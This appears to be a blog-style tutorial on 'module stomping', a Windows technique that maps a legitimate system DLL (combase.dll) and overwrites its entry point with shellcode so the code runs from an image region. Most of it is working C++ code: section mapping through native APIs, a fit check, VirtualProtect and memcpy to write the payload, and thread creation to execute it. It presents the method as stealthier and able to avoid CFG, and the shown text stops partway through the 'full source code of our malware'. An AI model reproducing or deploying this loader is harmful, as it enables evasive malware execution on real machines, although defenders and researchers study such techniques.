










# Module Stomping

Hackers use module stomping, a type of code injection, to put shellcode into the `.text` part of a legitimate sacrificial DLL file. Since this injection method doesn't use allocation APIs, the first step that is usually part of an injection process is skipped. Also, it's important to know that the executable DLL file is stomped with shellcode instead of another DLL or EXE payload.    

When module stomping is done, the shellcode is also put into an image memory region (inside the dead DLL). This is a better place to write a payload than, say, a private committed memory region.    

Module stomping will be put into place by following these steps:
1. Connect an victim DLL to the main process.   
2. Make sure the payload fits between the address of the DLL's entry point and the end of the text part.    
3. Put the code into the DLL at its entry point.    
4. Run the entry point of the DLL, which will then run the inserted shellcode.    

### practical example

Loading a DLL is a simple task, easily accomplished using the `LoadLibrary` WinAPI. However, loading a "victim" DLL this way requires implementing additional code to bypass *Control Flow Guard (CFG)* to execute the payload. CFG is a security mechanism that protects against code exploitation by controlling program execution paths.   

A better and more stealthy approach is to map the victim DLL manually using the `NtCreateSection` and `NtMapViewOfSection` syscalls. This way will ensure the mapped DLL is viewed as a `SEC_IMAGE` memory region, without having `CFG` block the code execution from within the `.text` section.    

First of all, let's check what is code injection via memory sections

### code injection via memory sections

What is section? Section is a memory block that is shared between processes and can be created with `NtCreateSection` API.    

The flow is this technique is: firstly, we create a new section object via `NtCreateSection`:   

```cpp

pNtCreateSection myNtCreateSection = (pNtCreateSection)(GetProcAddress(ntdll, "NtCreateSection"));

//...

myNtCreateSection(&sh, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionS, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
```

Then, before a process can read/write to that block of memory, it has to map a view of the said section, which can be done with `NtMapViewOfSection`.     

```cpp
//...
pNtMapViewOfSection myNtMapViewOfSection = (pNtMapViewOfSection)(GetProcAddress(ntdll, "NtMapViewOfSection"));

//...

myNtMapViewOfSection(sh, GetCurrentProcess(), &lb, NULL, NULL, NULL, &s, 2, NULL, PAGE_READWRITE);
```

Map a view of the created section to the local malicious process with RW protection.    

Then, map a view of the created section to the remote target process with RX protection     

Then, write payload and create a remote thread in the target process and point it to the mapped view in the target process to trigger the shellcode via `RtlCreateUserThread`:    

```cpp
// RtlCreateUserThread syntax
typedef NTSTATUS(NTAPI* pRtlCreateUserThread)(
  IN HANDLE               ProcessHandle,
  IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL,
  IN BOOLEAN              CreateSuspended,
  IN ULONG                StackZeroBits,
  IN OUT PULONG           StackReserved,
  IN OUT PULONG           StackCommit,
  IN PVOID                StartAddress,
  IN PVOID                StartParameter OPTIONAL,
  OUT PHANDLE             ThreadHandle,
  OUT PCLIENT_ID          ClientID
);

// write payload
memcpy(lb, my_payload, sizeof(my_payload));

// create a thread
myRtlCreateUserThread(ph, NULL, FALSE, 0, 0, 0, rb, NULL, &th, NULL);

// and wait
if (WaitForSingleObject(th, INFINITE) == WAIT_FAILED) {
  return -2;
}
```

Ok, return to our module stomping.    

To make things even safer, you should pick a sacrifice DLL that has a `.text` section that is big enough to hold the injected payload before loading it.     

So, DLL loading logic is looks like this:    

```cpp
// 1. open the sacrificial DLL file
hFile = CreateFileW(szSacrificialDll, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
  printf("CreateFileW failed with error: %d\n", GetLastError());
  return FALSE;
}

// 2. create an image section
STATUS = g_NtApi.pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, NULL, PAGE_READONLY, SEC_IMAGE, hFile);
CloseHandle(hFile); // Handle no longer needed after section creation
if (!NT_SUCCESS(STATUS)) {
  printf("NtCreateSection failed with error: 0x%0.8X\n", STATUS);
  return FALSE;
}

// 3. map the section into the current process
STATUS = g_NtApi.pNtMapViewOfSection(hSection, NtCurrentProcess(), &uMappedModule, 0, 0, NULL, &sViewSize, ViewShare, 0, PAGE_EXECUTE_READWRITE);
if (!NT_SUCCESS(STATUS)) {
  printf("NtMapViewOfSection failed with error: 0x%0.8X\n", STATUS);
  CloseHandle(hSection);
  return FALSE;
}

// 4. calculate the Entry Point
pImgNtHdrs = (PIMAGE_NT_HEADERS)((ULONG_PTR)uMappedModule + ((PIMAGE_DOS_HEADER)uMappedModule)->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE) {
  printf("invalid PE signature\n");
  goto _CLEANUP;
}
uEntryPoint = (ULONG_PTR)uMappedModule + pImgNtHdrs->OptionalHeader.AddressOfEntryPoint;
```

The next thing to do is to make sure that the DLL's `.text` section is big enough to hold our payload. Keep in mind that the payload won't be injected right at the beginning of the `.text` section. Instead, it will be injected at the entry point. A memory region inside the `.text` section will then be thrown away as a result of this.    

For verify our injection we need the following logic:    

```cpp
BOOL VerifyInjection(IN ULONG_PTR uSacrificialModule, IN ULONG_PTR uEntryPoint, IN SIZE_T sPayloadSize) {

  PIMAGE_NT_HEADERS    pImgNtHdrs    = NULL;
  PIMAGE_SECTION_HEADER  pImgSecHdr    = NULL;
  ULONG_PTR        uTextAddress  = 0;
  SIZE_T          sTextSize    = 0,
              sTextSizeLeft  = 0;

  pImgNtHdrs = (PIMAGE_NT_HEADERS)(uSacrificialModule + ((PIMAGE_DOS_HEADER)uSacrificialModule)->e_lfanew);
  if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
    return FALSE;

  pImgSecHdr = IMAGE_FIRST_SECTION(pImgNtHdrs);
  for (int i = 0; i < pImgNtHdrs->FileHeader.NumberOfSections; i++) {
    
    // if ((*(ULONG*)pImgSecHdr[i].Name | 0x20202020) == 'xet.') {
    //   uTextAddress  = uSacrificialModule + pImgSecHdr[i].VirtualAddress;
    //   sTextSize    = pImgSecHdr[i].Misc.VirtualSize;
    //   break;
    // }
    if (strncmp((const char*)pImgSecHdr[i].Name, ".text", 5) == 0) {
      uTextAddress  = uSacrificialModule + pImgSecHdr[i].VirtualAddress;
      sTextSize    = pImgSecHdr[i].Misc.VirtualSize;
      break;
    }
  }


  if (!uTextAddress || !sTextSize)
    return FALSE;

/*
       -----------  *uTextAddress*
    |      |
    |    Y    |  >>>  Y = uEntryPoint - uTextAddress
    |      |
     -----------  *uEntryPoint*
    |      |
    |      |
    |    X    |  >>> X = sTextSize - Y  
    |      |
    |      |
     -----------  *uTextAddress + sTextSize*
*/
  // calculate the size between the entry point and the end of the text section.
  sTextSizeLeft = sTextSize - (uEntryPoint - uTextAddress);

  printf("payload size: %d byte\n", sPayloadSize);
  printf("available memory (starting from the ep): %d byte\n", sTextSizeLeft);

  // Check if the shellcode can fit 
  if (sTextSizeLeft >= sPayloadSize)
    return TRUE;

  return FALSE;
}
```

The next step is to inject the shellcode after loading the DLL and verifying that it can hold the payload. It will be possible to do this with the `VirtualProtect` WinAPI, which will let the shellcode be written to the target `.text` section and then a `memcpy` call send the payload. Last, `VirtualProtect` will be called again to change the rights on the memory back to `RX` or `RWX`.    

```cpp
NTSTATUS  STATUS          = STATUS_SUCCESS;
HMODULE    hSacrificialModule    = NULL;
ULONG_PTR  uEntryPoint        = 0; // = NULL;
HANDLE    hThread          = NULL;
DWORD    dwOldProtection      = 0x00;

if (!szSacrificialDll || !pBuffer || !sBufferSize)
  return FALSE;

// load DLL file logic here...
//....
//...

char sacrificalDll[] = "C:\\Windows\\System32\\combase.dll";
printf("DLL %s loaded successfully at: 0x%p \n", sacrificalDll, (PVOID)hSacrificialModule);
printf("entry point: 0x%p \n", (PVOID)uEntryPoint);

if (!VerifyInjection((ULONG_PTR)hSacrificialModule, uEntryPoint, sBufferSize))
  return FALSE;

printf("press <Enter> to continue ... ");
getchar();


if (!VirtualProtect((LPVOID)uEntryPoint, sBufferSize, PAGE_READWRITE, &dwOldProtection)) {
  printf("VirtualProtect failed with error: %d \n", GetLastError());
  return FALSE;
}

memcpy((LPVOID)uEntryPoint, pBuffer, sBufferSize);

/* NOTE: YOUR PAYLOAD MAY REQUIRE RWX PERMISSIONS*/
// dwOldProtection's VALUE IS RX  
if (!VirtualProtect((LPVOID)uEntryPoint, sBufferSize, dwOldProtection, &dwOldProtection)) {
  printf("VirtualProtect failed with error: %d \n", GetLastError());
  return FALSE;
}

printf("press <Enter> to execute NtCreateThreadEx ... ");
getchar();

if (!NT_SUCCESS(g_NtApi.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, NtCurrentProcess(), (LPVOID)uEntryPoint, NULL, FALSE, 0x00, 0x00, 0x00, NULL))) {
  printf("NtCreateThreadEx failed with error: 0x%0.8X \n", STATUS);
  return FALSE;
}

WaitForSingleObject(hThread, INFINITE);
return TRUE;
```

function like the following:     

```cpp
BOOL ShellcodeModuleStomp(IN LPCWSTR szSacrificialDll, IN PBYTE pBuffer, IN SIZE_T sBufferSize) {
  NTSTATUS STATUS = STATUS_SUCCESS;
  HANDLE hFile = INVALID_HANDLE_VALUE;
  HANDLE hSection = NULL;
  HANDLE hThread = NULL;
  PVOID uMappedModule = NULL;
  SIZE_T sViewSize = 0;
  ULONG_PTR uEntryPoint = 0;
  DWORD dwOldProtection = 0;
  PIMAGE_NT_HEADERS pImgNtHdrs = NULL;

  // 1. Open the sacrificial DLL file
  hFile = CreateFileW(szSacrificialDll, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
      printf("[!] CreateFileW failed with error: %d\n", GetLastError());
      return FALSE;
  }

  // 2. Create an Image Section
  STATUS = g_NtApi.pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, NULL, PAGE_READONLY, SEC_IMAGE, hFile);
  CloseHandle(hFile); // Handle no longer needed after section creation
  if (!NT_SUCCESS(STATUS)) {
      printf("[!] NtCreateSection failed with error: 0x%0.8X\n", STATUS);
      return FALSE;
  }

  // 3. Map the section into the current process
  STATUS = g_NtApi.pNtMapViewOfSection(hSection, NtCurrentProcess(), &uMappedModule, 0, 0, NULL, &sViewSize, ViewShare, 0, PAGE_EXECUTE_READWRITE);
  if (!NT_SUCCESS(STATUS)) {
      printf("[!] NtMapViewOfSection failed with error: 0x%0.8X\n", STATUS);
      CloseHandle(hSection);
      return FALSE;
  }

  // 4. Calculate the Entry Point
  pImgNtHdrs = (PIMAGE_NT_HEADERS)((ULONG_PTR)uMappedModule + ((PIMAGE_DOS_HEADER)uMappedModule)->e_lfanew);
  if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE) {
      printf("[!] Invalid PE signature\n");
      goto _CLEANUP;
  }
  uEntryPoint = (ULONG_PTR)uMappedModule + pImgNtHdrs->OptionalHeader.AddressOfEntryPoint;

  printf("[*] DLL Loaded Successfully At: 0x%p\n", uMappedModule);
  printf("[i] Entry Point Found At: 0x%p\n", (PVOID)uEntryPoint);

  // 5. Verify if shellcode fits in the .text section
  if (!VerifyInjection((ULONG_PTR)uMappedModule, uEntryPoint, sBufferSize)) {
      printf("[!] Not enough space in .text section!\n");
      goto _CLEANUP;
  }

  printf("[#] Press <Enter> to overwrite entry point with shellcode...");
  getchar();

  // 6. Overwrite the Entry Point
  if (!VirtualProtect((LPVOID)uEntryPoint, sBufferSize, PAGE_READWRITE, &dwOldProtection)) {
      printf("[!] VirtualProtect (RW) failed: %d\n", GetLastError());
      goto _CLEANUP;
  }

  memcpy((PVOID)uEntryPoint, pBuffer, sBufferSize);

  if (!VirtualProtect((LPVOID)uEntryPoint, sBufferSize, dwOldProtection, &dwOldProtection)) {
      printf("[!] VirtualProtect (Restore) failed: %d\n", GetLastError());
      goto _CLEANUP;
  }

  // 7. Execute via NtCreateThreadEx
  printf("[#] Press <Enter> to execute NtCreateThreadEx...");
  getchar();

  STATUS = g_NtApi.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, NtCurrentProcess(), (PVOID)uEntryPoint, NULL, FALSE, 0, 0, 0, NULL);
  if (!NT_SUCCESS(STATUS)) {
      printf("[!] NtCreateThreadEx failed: 0x%0.8X\n", STATUS);
      goto _CLEANUP;
  }

  WaitForSingleObject(hThread, INFINITE);
  CloseHandle(hThread);
  CloseHandle(hSection);
  return TRUE;

_CLEANUP:
  if (hSection) CloseHandle(hSection);
  return FALSE;
}
```

Finally, main function looks like the following:   

```cpp
int main() {

  HMODULE    hNtdll      = NULL;

  if (!(hNtdll = GetModuleHandle(TEXT("NTDLL"))))
    return -1;

  g_NtApi.pNtCreateSection    = (fnNtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
  g_NtApi.pNtMapViewOfSection    = (fnNtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
  g_NtApi.pNtCreateThreadEx    = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");

  if (!g_NtApi.pNtCreateSection || !g_NtApi.pNtMapViewOfSection || !g_NtApi.pNtCreateThreadEx)
    return -1;

  // module stomping logic here, something like this
  if (!ShellcodeModuleStomp(VICTIM_DLL, rawData, sizeof(rawData)))
    return -1;
  return 0;
}
```

Full source code of our malware:    

```cpp
/* 
 * hack.c - module stomping
 * victim DLL: combase.dll
 * author: @cocomelonc
*/
#include <windows.h>
#include <stdio.h>

#define VICTIM_DLL  L"C:\\Windows\\System32\\combase.dll"

#define STATUS_SUCCESS      0x00000000
#define NtCurrentProcess()  ( (HANDLE)-1 )
#define NT_SUCCESS(STATUS)  (((NTSTATUS)(STATUS)) >= STATUS_SUCCESS)

typedef enum _SECTION_INHERIT {
    ViewShare = 1,
    ViewUnmap = 2
} SECTION_INHERIT, * PSECTION_INHERIT;

typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

typedef struct _OBJECT_ATTRIBUTES {
    ULONG Length;
    HANDLE RootDirectory;
    PUNICODE_STRING ObjectName;
    ULONG Attributes;
    PVOID SecurityDescriptor;
    PVOID SecurityQualityOfService;
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

typedef struct _PS_ATTRIBUTE {
    ULONG_PTR Attribute;
    SIZE_T Size;
    union {
        ULONG_PTR Value;
        PVOID ValuePtr;
    };
    PSIZE_T ReturnLength;
} PS_ATTRIBUTE, * PPS_ATTRIBUTE;

typedef struct _PS_ATTRIBUTE_LIST {
    SIZE_T TotalLength;
    PS_ATTRIBUTE Attributes[3];
} PS_ATTRIBUTE_LIST, * PPS_ATTRIBUTE_LIST;

typedef NTSTATUS(NTAPI* fnNtCreateSection)(
    OUT PHANDLE        SectionHandle,
    IN  ACCESS_MASK      DesiredAccess,
    IN  POBJECT_ATTRIBUTES  ObjectAttributes  OPTIONAL,
    IN  PLARGE_INTEGER    MaximumSize      OPTIONAL,
    IN  ULONG        SectionPageProtection,
    IN  ULONG        AllocationAttributes,
    IN  HANDLE        FileHandle      OPTIONAL
    );

